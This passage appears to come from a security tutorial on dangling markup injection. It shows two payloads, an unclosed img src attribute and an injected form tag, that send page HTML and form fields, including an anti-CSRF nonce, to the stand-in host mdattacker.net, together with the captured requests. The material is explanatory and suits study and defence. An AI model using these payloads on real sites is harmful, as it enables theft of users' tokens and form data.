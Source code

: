 **Attacker Injection:**

```html
<img src='http://mdattacker.net/capture?html=
```

**What Happens:**

* The browser builds this request:

```
GET /capture?html=<form%20action=...
Host: mdattacker.net
```

* All the HTML between the injection point and the **next `'`** is sent as part of the URL.
* This includes the **`nonce`** CSRF token and any other form fields.

---

**Why It Works:**

* SOP doesn’t stop the *browser* from requesting resources cross-domain.
* It only stops *JavaScript* from reading the response.
* Here, we don’t care about reading the attacker’s own response — we just need the **request** to contain the victim’s data.

---

### **Case 2 — Nested `<form>` Tag Exploit**

**Goal:** Capture form data when the victim submits a legitimate form.

**Mechanics:**

* Inject a new `<form>` element that points to the attacker’s server.
* Browsers ignore nested forms — instead, **all fields belong to the first form tag** in source order.
* If attacker’s injected form tag appears before the real one, form submission sends data to attacker.

---

**Injection Example:**

```html
<form action="http://mdattacker.net/capture" method="POST">
```

**Resulting Browser Behavior:**

* Victim clicks “Forward” →
  Browser sends **all** parameters (including anti-CSRF token) to `mdattacker.net`.

**Captured Request:**

```
POST /capture HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Host: mdattacker.net

nonce=2230313740821&...
```

---